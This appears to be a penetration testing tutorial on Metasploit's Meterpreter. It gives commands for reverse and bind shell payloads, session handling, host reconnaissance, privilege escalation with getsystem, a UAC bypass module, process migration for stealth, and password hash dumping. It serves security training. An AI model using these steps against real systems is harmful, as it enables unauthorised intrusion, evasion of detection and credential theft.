 # Meterpreter

Meterpreter is a very powerful shell which runs on Anroid, BSD, Java, Linux, PHP, Python, and Windows vulnerable applications and services

It provides advanced features to gather information, transfer files between the attacker and victim machines, install backdoors and more

To list all possible Meterpreter payloads in MSFConsole:

```
search meterpreter
```

To choose a payload when attacking a Windows machine:

```
set payload windows/meterpreter/reverse_tcp
```

## Bind and Reverse

Meterpreter can both wait for a connection on the target machine or connect back to the attacker machine

Most used configurations are `bind_tcp` and `reverse_tcp`

* **`bind_tcp`** runs a server process on the target machine that waits for connections from the attacker machine
* **`reverse_tcp`** performs a TCP connection back to the attacker machine which could help evade firewall rules

```
set payload windows/meterpreter/reverse_tcp
set payload linux/x86/meterpreter/reverse_tcp
set payload windows/meterpreter/bind_tcp
set payload java/meterpreter/bind_tcp
```

## Sessions

A single instance of MSFConsole can host multiple Meterpreter sessions which means you can instance multiple shells on your targets and switch between them

To switch from a Meterpreter session to the console

```
background
```

To list currently opened sessions

```
sessions -l
```

To resume a background session

```
sessions -i <id>
```

## Information Gathering

You can perform information gathering on the exploited machine and the network it is attached to

You can retrieve:

* Information about the machine and the OS
* The network configuration in use
* The routing table of the compromised host
* Information about the user running the exploited process

### System Information

To retrieve information about the exploited machine: name, OS, architecture, system language and the Meterpreter version running:

```
sysinfo
```

![](<../../../../.gitbook/assets/image (28).png>)

### Network configuration

To print the network configuration:

```
ifconfig
```

![](<../../../../.gitbook/assets/image (20) (1).png>)

### Routing information

```
route
```

![](<../../../../.gitbook/assets/image (15) (1).png>)

### Current User

```
getuid
```

![](<../../../../.gitbook/assets/image (31).png>)

### Privilege Escalation

To just current privileges on Windows

```
run post/windows/gather/win_privs
```

![](<../../../../.gitbook/assets/image (33) (1).png>)



You can use `getsystem` if the owner of the process does not have high privileges on the victim system

```
getsystem
```

![](<../../../../.gitbook/assets/image (11) (1).png>)

### Bypassing UAC

{% hint style="info" %}
In modern Windows operating systems, the User Account Control policy prevent privilege escalation
{% endhint %}

![](<../../../../.gitbook/assets/image (25) (1).png>)

You can bypass that restriction by u sing the `bypassuac` module

```
use exploit/windows/local/bypassuac
```

Then you have to set the session where you want to bypass UAC

```
set session <id>
```

Launch the exploit to get a new Meterpreter session with the UAC policy disabled and use `getsystem`

![](<../../../../.gitbook/assets/image (10).png>)

## Staying Stealthy

Checking pid with `getpid` shows the process you're currently running on

As you can imagine, this process name is not very stealthy and is also suspicious

A user checking their process list may notice something strange on their  machine

![](<../../../../.gitbook/assets/image (35) (1).png>)

Therefore, in order to remain stealthy, we can use the `migrate` command to attach our session on a different process

We have to choose a process with the same privileges we currently have

```
ps -U SYSTEM
migrate <PID> //simply using migrate should work as well if you don't want to be specific
```



## Dumping the Password Database

```
use post/windows/gather/hashdump
set session <id>
exploit
```

![](<../../../../.gitbook/assets/image (16) (1).png>)

## Exploring the Victim System

You can navigate the hard drive by using Unix-like shell commands

![](<../../../../.gitbook/assets/image (29) (1).png>)

## Uploading and Downloading

![](<../../../../.gitbook/assets/image (19) (1).png>)

## Running an OS Shell

You can run a standard OS shell

```
shell
```

![](<../../../../.gitbook/assets/image (26) (1).png>)

